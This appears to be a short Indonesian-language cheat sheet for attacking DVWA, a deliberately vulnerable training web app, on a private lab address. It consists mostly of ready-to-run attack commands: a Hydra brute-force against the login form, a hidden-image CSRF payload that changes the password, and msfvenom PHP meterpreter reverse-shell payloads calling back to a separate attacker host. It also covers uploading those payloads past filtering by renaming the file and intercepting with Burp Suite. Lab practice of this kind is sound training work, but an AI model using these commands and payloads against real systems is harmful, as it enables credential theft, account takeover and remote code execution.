 # Web Hacking
## Target
- IP 192.168.43.61
- Website target : http://192.168.43.61/DVWA
## 1. Brute Force using Hydra
- > Download link : https://github.com/vanhauser-thc/thc-hydra
- > Intercept http://192.168.43.61/DVWA/vulnerabilities/brute/
- > ```hydra 192.168.43.61 -l admin -P ~/HackingTools/passlist.txt http-get-form "/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low;PHPSESSID=agtsveq2le4sv22ht3kcsmhv0q" ```

## 2. Exploit CSRF Vulnerability
- > Buat file html, copy 
    > ``` <img style="display:none" src="http://192.168.43.61/DVWA/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change" alt=""> ```
## 3. Directory Traversal
- > buka http://192.168.43.61/DVWA/vulnerabilities/fi/?page=file1.php
- > coba akses file pada server dengan memanfaatkan celah akses directory 
## 4. File Injection
> Tools : Metasploit, Burpsuite
- ### LOW Security
    - ```msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.43.241 LPORT=3333 -o upload.php```
    - > Upload file 'upload.php' ke http://192.168.43.61/DVWA/vulnerabilities/upload/
    - ```run msfconsole```
    - ```use multi/handler```
    - ```set lhost [IP lhost samakan dengan payload]```
    - ```set lport [lport samakan dengan payload]```
    - ```run```
- ### Medium Security
    - ```msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.43.241 LPORT=4444 -o koala.php```
    - > Ganti nama koala.php menjadi koala.php.jpeg
    - > Buka Burpsuite > proxy > intercept > intercept on
    - > Upload file 'koala.php.jpeg' ke http://192.168.43.61/DVWA/vulnerabilities/upload/
    - > pada payload burpsuite rubah nama file koala.php.jpeg menjadi koala.php
    - ```run msfconsole```
    - ```use multi/handler```
    - ```set lhost [IP lhost samakan dengan payload]```
    - ```set lport [lport samakan dengan payload]```
    - ```run```